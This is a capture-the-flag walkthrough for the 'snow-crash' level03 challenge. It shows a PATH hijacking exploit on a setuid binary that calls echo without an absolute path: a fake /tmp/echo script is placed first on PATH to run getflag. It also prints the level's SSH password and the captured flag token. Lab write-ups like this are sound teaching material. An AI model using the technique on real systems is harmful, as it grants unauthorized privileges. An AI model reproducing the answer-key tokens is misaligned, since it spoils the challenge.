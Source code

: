 Login as `level03`.
```shell
┌──$ [~/42/2020/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level03
level03@192.168.1.64's password: kooda2puivaav1idi4f57q8iq
```

An executable file is located in home directory.
```shell
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```
Use `ltrace` program that simply runs the specified command until it exits.

It intercepts and records the dynamic library calls as well as the system calls executed by the program.
```gdb
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid() = 2003
geteuid() = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 0
+++ exited (status 0) +++
```
`system("/usr/bin/env echo Exploit me")` shows that echo command is executed without absolute path.
This is a common path vulnerability.

So real `echo` can be faked with a script or symlink.
For best practice is recommended to execute binaries by absolute path to avoid this type of vulnerability.
```shell
level03@SnowCrash:~$ vi /tmp/echo
#!/bin/bash
/bin/getflag
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ export PATH="/tmp:$PATH"
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
